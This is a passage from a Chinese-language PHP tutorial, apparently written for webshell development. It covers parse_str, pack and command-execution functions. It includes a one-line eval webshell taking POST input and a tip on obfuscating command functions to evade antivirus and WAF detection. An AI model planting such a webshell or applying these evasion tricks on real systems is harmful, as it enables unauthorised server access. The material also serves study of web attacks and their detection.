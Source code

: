 ```plain
parse_str("name=Peter&age=43");
echo $name."<br>";      //Peter
echo $age;              //43

parse_str("name=Peter&age=43",$myArray);
print_r($myArray);       //Array ( [name] => Peter [age] => 43 )
```

### 2.4 pack()

**`pack()` 函数函数把数据装入一个二进制字符串**

Demo：简单来说，就是将指定编码的数字转成字符串

```plain
echo pack("C3",80,72,80);   //ASCII 编码转换为 PHP
echo pack("H*","4161627973735465616d");    //16 进制编码转换为 AabyssTeam
```

其他参数请参考菜鸟教程： [https://www.runoob.com/php/func-misc-pack.html](https://www.runoob.com/php/func-misc-pack.html)

## 3# 命令执行类函数

### 3.0 Tips

命令执行类函数在”某些情况“下是非常危险的，所以往往遭到杀毒软件和 WAF 的重点关注，所以在做免杀的时候，为了绕过污点检测往往都要将命令执行类函数进行拼接、重组、加密、混淆来规避查杀。

### 3.1 eval()

**`eval()` 函数把字符串按照 PHP 代码来计算，即执行 PHP 代码**

Demo：将其中的内容按照 PHP 代码执行

```plain
echo 'echo "我想学 php"';     //echo "我想学 php"
eval('echo "我想学 php";');   //"我想学 php"
```

Demo：一句话木马将参数传到 `eval()` 函数内执行

```plain
@eval($_POST['AabyssTeam']);
```

### 3.2 system()

**`system()` 函数的主要功能是在系统权限允许的情况下，执行系统命令（Windows 系统和 Linux 系统均可执行）**

Demo：执行 Whoami 并回显

```plain
system('whoami');
```

### 3.3 exec()
